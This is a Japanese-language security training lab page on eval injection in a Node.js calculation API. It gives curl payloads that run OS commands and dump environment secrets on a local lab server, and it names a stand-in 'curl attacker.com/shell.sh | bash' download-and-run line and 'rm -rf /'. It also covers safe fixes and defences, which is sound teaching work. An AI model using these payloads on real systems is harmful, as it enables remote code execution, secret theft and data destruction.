


# eval Injection — ユーザー入力をコードとして実行してしまう

> ユーザーが入力した文字列を `eval()` や `Function` コンストラクタで JavaScript コードとして実行してしまうことで、サーバー上で任意のコードが実行されてしまう脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | `eval()` / `Function` コンストラクタでユーザー入力をコードとして実行してしまい、サーバー上で任意のコード実行（RCE）が可能になる |
| **攻撃例** | JSON 計算 API に `process.mainModule.require('child_process').execSync('id')` 等を送信 |
| **技術スタック** | Hono API (Node.js) |
| **難易度** | ★★☆ 中級 |
| **前提知識** | JavaScript の基本、Node.js のモジュールシステム |

---

## この脆弱性を理解するための前提

### `eval()` と `Function` コンストラクタの仕組み

JavaScript には文字列をコードとして動的に実行する機能が組み込まれている。代表的なものが `eval()` と `Function` コンストラクタである。

```javascript
// eval() — 文字列を JavaScript コードとして評価・実行する
eval('2 + 3');  // → 5

// Function コンストラクタ — 文字列から関数を動的に生成する
const add = new Function('a', 'b', 'return a + b');
add(2, 3);  // → 5
```

これらは以下のような場面で開発者に使われてきた:

- **動的な計算処理**: ユーザーが入力した数式を評価する電卓アプリ
- **テンプレート処理**: 文字列内の式を動的に展開する
- **JSON パース（歴史的経緯）**: `JSON.parse()` が存在しなかった時代に `eval('(' + jsonString + ')')` でパースしていた
- **設定ファイルの動的読み込み**: JavaScript オブジェクトリテラルで記述された設定を `eval()` で読み込む

いずれも「文字列をコードとして解釈・実行する」という共通の性質を持っている。

### どこに脆弱性が生まれるのか

問題は、`eval()` や `Function` コンストラクタに **ユーザーが制御できる文字列** が渡される場合に発生する。開発者は「ユーザーは `2 + 3` のような単純な数式しか入力しない」と想定するが、攻撃者は任意の JavaScript コードを送信できる。`eval()` はデータとコードを区別しないため、数式もシステムコマンドも同じように実行してしまう。

```typescript
// ⚠️ この部分が問題 — ユーザー入力を eval() でコードとして実行している
app.post('/api/calculate', async (c) => {
  const { expression } = await c.req.json();
  // expression に "2 + 3" を期待しているが...
  // "process.mainModule.require('child_process').execSync('id').toString()"
  // のような任意のコードも実行できてしまう
  const result = eval(expression);
  return c.json({ result });
});
```

`eval()` に渡された文字列は、そのプロセスの Node.js ランタイム上で完全な権限を持つコードとして実行される。これは `require()` によるモジュール読み込み、ファイルシステムアクセス、OS コマンド実行のすべてを含む。

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** が計算 API の入力欄に正常な数式に見せかけた悪意あるコードを送信する

   計算 API がユーザー入力を `eval()` で処理していることを推測し、まず `2 + 3` のような正常な入力でエンドポイントの動作を確認する。`{"result": 5}` が返ってくれば、`eval()` が使用されている可能性が高い。

   ```bash
   # 偵察: 正常な数式で動作を確認
   curl -X POST http://localhost:3000/api/labs/eval-injection/vulnerable/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "2 + 3"}'
   # → {"result": 5}
   ```

2. **攻撃者** がコードインジェクションの可能性を確認する

   数式ではなく JavaScript の式を送信し、`eval()` が使用されているかを確定させる。

   ```bash
   # eval() の確認: JavaScript の組み込みオブジェクトにアクセスできるか
   curl -X POST http://localhost:3000/api/labs/eval-injection/vulnerable/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "typeof process"}'
   # → {"result": "object"} — Node.js の process オブジェクトにアクセスできる
   ```

3. **サーバー** がユーザー入力を `eval()` に渡し、JavaScript コードとして実行する

   サーバー内部では以下の処理が行われる:

   ```typescript
   // expression = "2 + ' + userInput だった場合:
   const result = eval("typeof process");
   // → "object" — eval() は文字列を完全な JavaScript として実行する
   ```

   `eval()` は渡された文字列を **現在の実行コンテキスト内** で評価する。Node.js プロセスのすべてのグローバルオブジェクト（`process`、`require`、`Buffer` 等）にアクセスできる。

4. **攻撃者** が OS コマンドを実行してサーバーを完全に掌握する

   `process.mainModule.require()` を経由して `child_process` モジュールにアクセスし、任意の OS コマンドを実行する。

   ```bash
   # RCE: サーバー上で任意のコマンドを実行
   curl -X POST http://localhost:3000/api/labs/eval-injection/vulnerable/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "process.mainModule.require(\"child_process\").execSync(\"id\").toString()"}'
   # → {"result": "uid=1000(node) gid=1000(node) groups=1000(node)"}
   ```

   攻撃者はサーバーの実行ユーザー権限で、ファイルの読み書き、環境変数の取得、ネットワーク操作、他システムへの攻撃など、あらゆる操作を実行できる。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| `eval()` / `Function` の使用 | ユーザー入力を `eval()` に渡すと、入力は「データ」ではなく「コード」として解釈・実行される。数式も OS コマンド呼び出しも区別されない |
| 入力値の検証・サニタイズがない | 数値と演算子のみに制限するバリデーションがなく、`require`、`process`、`child_process` 等の危険なキーワードを含む任意の文字列が通過する |
| Node.js ランタイムへのフルアクセス | `eval()` は現在のプロセスのコンテキストで実行されるため、`process`、`require()` 等の Node.js API すべてにアクセスできる。サンドボックス化されていない |

### 被害の範囲

eval インジェクションが成功すると **RCE（Remote Code Execution = リモートコード実行）** が可能になる。これはサーバーの完全な乗っ取りを意味する。

- **機密性**: `require('fs').readFileSync('/etc/passwd')` でサーバー上の任意のファイルを読み取れる。`process.env` で環境変数（DB 接続文字列、API キー、秘密鍵等）を取得できる。ソースコード、設定ファイル、他のユーザーのデータすべてが漏洩する
- **完全性**: ファイルの書き換え、データベースへの直接接続と改ざん、バックドアの設置（cron ジョブ、SSH 公開鍵の追加等）が可能。`require('child_process').execSync('curl attacker.com/shell.sh | bash')` でマルウェアをダウンロード・実行できる
- **可用性**: `process.exit()` でサーバーを即座に停止できる。`require('child_process').execSync('rm -rf /')` でファイルシステムを破壊できる。フォークボムやリソース枯渇攻撃も可能

---

## 対策



### 根本原因

ユーザー入力が **JavaScript のコード（命令）** として解釈される設計になっていることが根本原因。`eval()` はデータとコードの境界を持たないため、数式として渡したつもりの文字列がシステムコマンドの実行にまで発展する。SQL インジェクションやコマンドインジェクションと同じ「データとコードの混同」パターンである。

### 安全な実装

`eval()` を完全に排除し、専用の安全なパーサーを使用する。数式の評価には Math.js のような数学ライブラリを使うことで、JavaScript コードの実行を防ぎつつ数式だけを安全に評価できる。

```typescript
import { evaluate } from 'mathjs';

// ✅ eval() を使わず、安全な数式パーサーで計算する
// Math.js は数式のみを評価し、JavaScript コードの実行はできない
app.post('/api/calculate', async (c) => {
  const { expression } = await c.req.json();

  // 入力値のバリデーション: 空文字や極端に長い入力を拒否
  if (!expression || typeof expression !== 'string' || expression.length > 200) {
    return c.json({ error: '無効な入力です' }, 400);
  }

  try {
    // Math.js の evaluate() は数式のみを評価する
    // "2 + 3" → 5 ✅
    // "sin(pi / 2)" → 1 ✅
    // "process.mainModule.require(...)" → エラー ❌
    const result = evaluate(expression);
    return c.json({ result });
  } catch {
    return c.json({ error: '計算できない式です' }, 400);
  }
});
```

Math.js の `evaluate()` は独自のパーサーを持ち、数学的な式（四則演算、関数、定数等）のみを評価する。`process`、`require`、`Function` などの JavaScript オブジェクトへのアクセスはパーサーが認識しないためエラーとなる。`eval()` と異なり、JavaScript のランタイムにアクセスする手段がない。

もし汎用的な式の評価が必要な場合は、`isolated-vm` のようなサンドボックスライブラリを使用して、完全に隔離された V8 コンテキストでコードを実行する方法もある。

```typescript
import ivm from 'isolated-vm';

// ✅ isolated-vm で完全に隔離された環境で式を評価する
// メインプロセスの process, require 等にアクセスできない
app.post('/api/calculate', async (c) => {
  const { expression } = await c.req.json();

  const isolate = new ivm.Isolate({ memoryLimit: 8 }); // メモリ制限 8MB
  const context = await isolate.createContext();

  try {
    const script = await isolate.compileScript(expression);
    // タイムアウト付きで実行 — 無限ループも防止
    const result = await script.run(context, { timeout: 1000 });
    return c.json({ result });
  } catch {
    return c.json({ error: '評価できない式です' }, 400);
  } finally {
    isolate.dispose();
  }
});
```

#### 脆弱 vs 安全: コード比較

```diff
+ import { evaluate } from 'mathjs';
+
  app.post('/api/calculate', async (c) => {
    const { expression } = await c.req.json();
-   // eval() でユーザー入力をコードとして実行
-   const result = eval(expression);
+   // Math.js で数式のみを安全に評価（JavaScript コードは実行不可）
+   const result = evaluate(expression);
    return c.json({ result });
  });
```

`eval()` は入力を JavaScript コードとして実行するため、`require('child_process')` 等のあらゆるコードが実行可能。Math.js の `evaluate()` は数学的な式のみを評価する独自パーサーを使用し、JavaScript のランタイムには一切アクセスできない。この1行の違いが、任意コード実行の可否を決定する。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| `eval()` の完全な排除 | 根本対策 | `eval()`、`new Function()`、`setTimeout(string)`、`setInterval(string)` を使用しない。ESLint の `no-eval` / `no-new-func` ルールで静的に検知する。これが最も効果的で必須 |
| 安全なパーサーの使用 | 根本対策 | Math.js（数式評価）、`JSON.parse()`（JSON パース）等の用途特化型パーサーを使用する。汎用的なコード実行を許さない |
| サンドボックス化 | 多層防御 | `isolated-vm` や Web Workers 等で、コード実行環境をメインプロセスから完全に隔離する。`process`、`require` 等へのアクセスを遮断 |
| CSP（Content Security Policy） | 多層防御 | ブラウザ側での `eval()` 使用を `script-src` ディレクティブで制限する（`'unsafe-eval'` を許可しない）。サーバーサイドの eval には効果がないが、クライアントサイドの防御に有効 |
| 最小権限の原則 | 多層防御 | アプリケーションを最小権限のユーザーで実行し、万一の RCE 時の被害を限定する。コンテナ化や seccomp プロファイルの適用も有効 |
| WAF / ランタイム監視 | 検知 | `require`、`child_process`、`execSync` 等のキーワードを含むリクエストを検知・ブロックする。ランタイム保護ツール（Snyk、Sqreen 等）でプロセスの異常な挙動を監視する |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: 数式計算 API に任意の JavaScript コードを注入し、サーバー上で OS コマンドが実行できることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. 正常な数式を送信して動作を確認する

   ```bash
   curl -X POST http://localhost:3000/api/labs/eval-injection/vulnerable/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "2 + 3"}'
   ```

   - `{"result": 5}` が返される — 数式が正しく評価されている

3. eval インジェクションを試す — Node.js オブジェクトにアクセスする

   ```bash
   # process オブジェクトの存在を確認
   curl -X POST http://localhost:3000/api/labs/eval-injection/vulnerable/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "process.version"}'
   ```

   - Node.js のバージョン文字列（例: `v20.11.0`）が返される
   - **この結果が意味すること**: `eval()` が使用されており、Node.js のグローバルオブジェクトにアクセスできる

4. OS コマンド実行にエスカレーションする

   ```bash
   # /etc/passwd を読み取る
   curl -X POST http://localhost:3000/api/labs/eval-injection/vulnerable/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "process.mainModule.require(\"child_process\").execSync(\"id\").toString()"}'
   ```

   - サーバーの実行ユーザー情報が返される
   - これはサーバーの完全な乗っ取りを意味する

5. 環境変数の窃取も試す

   ```bash
   curl -X POST http://localhost:3000/api/labs/eval-injection/vulnerable/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "JSON.stringify(process.env)"}'
   ```

   - DB 接続文字列や API キーを含む環境変数が漏洩する

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃が失敗することを確認する

1. 同じペイロードを安全なエンドポイントに送信する

   ```bash
   # 正常な数式は引き続き動作する
   curl -X POST http://localhost:3000/api/labs/eval-injection/secure/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "2 + 3"}'
   # → {"result": 5}

   # 攻撃ペイロードはエラーになる
   curl -X POST http://localhost:3000/api/labs/eval-injection/secure/calculate \
     -H "Content-Type: application/json" \
     -d '{"expression": "process.version"}'
   # → {"error": "計算できない式です"}
   ```

2. 結果を確認する

   - 正常な数式（`2 + 3`、`sin(pi / 2)`、`sqrt(16)` 等）は正しく評価される
   - `process.version`、`require(...)` 等の JavaScript コードはすべてエラーになる
   - Math.js のパーサーは数学的な式のみを受け付け、JavaScript のランタイム API にはアクセスできない

3. コードの差分を確認する

   - `backend/src/labs/step06-server-side/eval-injection.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `eval()` → Math.js `evaluate()` の切り替え

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] `eval()` に任意の文字列を渡すと何が起きるか（JavaScript コードとしての実行）
- [ ] 攻撃者が数式 API から OS コマンド実行にエスカレーションする手順を説明できるか
- [ ] 根本原因はコード/設計のどこにあるか（データとコードの混同）
- [ ] 安全な実装は「なぜ」この攻撃を無効化するのか（専用パーサーによるコード実行の遮断）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/eval-injection/vulnerable/calculate` |
| 安全エンドポイント | `/api/labs/eval-injection/secure/calculate` |
| バックエンド | `backend/src/labs/step06-server-side/eval-injection.ts` |
| フロントエンド | `frontend/src/labs/step06-server-side/pages/EvalInjection.tsx` |

- 脆弱版: `eval()` でユーザー入力をそのまま JavaScript として実行する数式計算エンドポイント
- 安全版: Math.js の `evaluate()` で数式のみを評価し、JavaScript コードの実行を防止
- `expression` パラメータに数式文字列を受け取り、計算結果を JSON で返す
- フロントエンドでは数式入力フォームと結果表示を提供し、脆弱/安全バージョンの切り替えが可能

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2013 | PayPal Node.js RCE | PayPal の Node.js アプリケーションで `eval()` を使用した入力処理が発見され、リモートコード実行が可能であることがセキュリティ研究者により報告された |
| 2017 | npm `node-serialize` (CVE-2017-5941) | `node-serialize` パッケージの `unserialize()` 関数が内部で `eval()` を使用しており、細工されたシリアライズデータで任意のコード実行が可能だった。即時実行関数 `_$$ND_FUNC$$_function(){...}()` を含むデータを送信するだけで RCE が成立 |
| 2021 | 複数の npm パッケージ | `mathjs` の古いバージョンや `safe-eval` 等のサンドボックスライブラリで、`eval()` の制限をバイパスしてコード実行が可能な脆弱性が複数発見された。「安全な eval」の実装が困難であることを示す事例 |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [コマンドインジェクション](../step02-injection/command-injection.md) | コマンドインジェクションは OS シェル経由、eval インジェクションは JavaScript ランタイム経由でコードを実行する。eval から `child_process` にアクセスすればコマンドインジェクションと同等の被害になる |
| [SSTI](../step08-advanced/ssti.md) | SSTI はテンプレートエンジンを経由した eval インジェクションの一種。テンプレートエンジンが内部で `eval()` や `Function` コンストラクタを使用している場合、本質的に同じ脆弱性 |
| [安全でないデシリアライゼーション](../step08-advanced/deserialization.md) | デシリアライズ処理で `eval()` が使用されている場合、eval インジェクションと同じメカニズムで RCE が発生する。`node-serialize` の脆弱性はその典型例 |

---

## 参考資料

- [OWASP - Code Injection](https://owasp.org/www-community/attacks/Code_Injection)
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html)
- [MDN - eval() のセキュリティリスク](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/eval#eval_%E3%82%92%E4%BD%BF%E3%82%8F%E3%81%AA%E3%81%84%E3%81%A7!)
